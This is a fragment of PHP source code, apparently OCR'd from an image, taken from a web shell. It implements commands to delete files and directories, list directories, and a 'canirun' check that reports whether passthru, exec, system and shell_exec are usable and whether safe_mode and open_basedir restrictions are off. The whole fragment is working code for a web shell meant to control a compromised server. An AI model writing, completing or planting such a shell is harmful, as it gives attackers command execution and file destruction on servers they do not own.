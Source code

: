                     print "Directory succesfully deleted.";
                } else {
                    print "Couldn't delete directory!";
                }
            } else {
                if (unlink($file[1])) {
                    print "File succesfully deleted.";
                } else {
                    print "Couldn't delete file!";
                }
            }
        } elseif (strtolower($cmd) == "canirun") {
            print "<br>";
            if (function_exists(passthru)) {
                print "Passthru: <b><font color=green>Enabled</b></font><br>";
            } else {
                print "Passthru: <b><font color=red>Disabled</b></font><br>";
            }
            if (function_exists(exec)) {
                print "Exec: <b><font color=green>Enabled</b></font><br>";
            } else {
                print "Exec: <b><font color=red>Disabled</b></font><br>";
            }
            if (function_exists(system)) {
                print "System: <b><font color=green>Enabled</b></font><br>";
            } else {
                print "System: <b><font color=red>Disabled</b></font><br>";
            }
            if (function_exists(shell_exec)) {
                print "Shell_exec: <b><font color=green>Enabled</b></font><br>";
            } else {
                print "Shell_exec: <b><font color=red>Disabled</b></font><br>";
            }
            print "<br><br>";
            if (ini_get('safe_mode')) {
                print "Safe Mode: <b><font color=red>Enabled</b></font>";
            } else {
                print "Safe Mode: <b><font color=green>Disabled</b></font>";
            }
            print "<br><br><br>";
            if (ini_get('open_basedir')) {
                print "Open_basedir: <b><font color=red>Enabled</b></font>";
            } else {
                print "Open_basedir: <b><font color=green>Disabled</b></font>";
            }
        }
        //About the shell
        elseif (ereg("listdir (.*)", $cmd, $directory)) {
            if (!file_exists($directory[1])) {
                die("Directory not found");
            }
            //Some variables
            chdir($directory[1]);
            $i = 0;
            $f = 0;
            $dirs = "";
            $filez = "";
            if (!ereg("/$", $directory[1])) //Does it end with a slash?
            {
                $directory[1].= "/"; //If not, add one

            }
            print "Listing directory: " . $directory[1] . "<br>";
            print "<table border=0><td><b>Directories</b></td><td><b>Files</b></td><tr>";
